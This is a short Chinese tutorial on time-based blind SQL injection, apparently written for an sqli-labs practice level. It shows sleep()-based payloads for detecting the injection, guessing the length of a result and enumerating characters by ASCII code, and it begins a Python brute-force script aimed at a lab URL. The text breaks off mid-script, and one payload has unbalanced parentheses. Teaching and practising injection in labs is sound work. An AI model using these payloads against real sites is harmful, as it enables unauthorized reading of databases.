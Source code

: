 

判断是否存在时间盲注

```
?id=1' and if(1,sleep(5),3) --+        #延时5s响应
?id=1' and if(0,sleep(5),3) --+        #正常响应
```

即存在盲注

判断注入点就是，测试payload，若是延时5s就说明注入存在





```
?id=1 and if(1,sleep(5),3) --+
?id=1' and if(1,sleep(5),3) --+
?id=1" and if(1,sleep(5),3) --+
```



判断长度就是去尝试

```
?id=1' and if((length(查询语句) =1), sleep(5), 3) --+
?id=1' and if((length(查询语句) =2), sleep(5), 3) --+
?id=1' and if((length(查询语句) =3), sleep(5), 3) --+
....
```

一直试到延时5s产生，即是这个长度



然后枚举字符，这里就不用列出来全部字符了，直接使用ASCII码进行判断，从32开始判断，一直递增到126



```
?id=1' and if((ascii(substr(查询语句,1,1)) =1), sleep(5), 3) --+
```





时间盲注容易受到网络波动等因素的影响，从而产生误差。

枚举字符

```
?id=1' and if(ascii(substr(database(),1,1))>1),sleep(5),3) --+
```



总的来说，爆破脚本如下：

```py
import requests
import time

# 将url 替换成你的靶场关卡网址
# 修改两个对应的payload

# 目标网址（不带参数）
url = "http://0f3687d08b574476ba96442b3ec2c120.app.mituan.zone/Less-9/"
# 猜解长度使用的payload
payload_len = """?id=1' and if(
	(length(database()) ={n})
,sleep(5),3) -- a"""
# 枚举字符使用的payload
payload_str = """?id=1' and if(
	(ascii(
		substr(
		(database())
```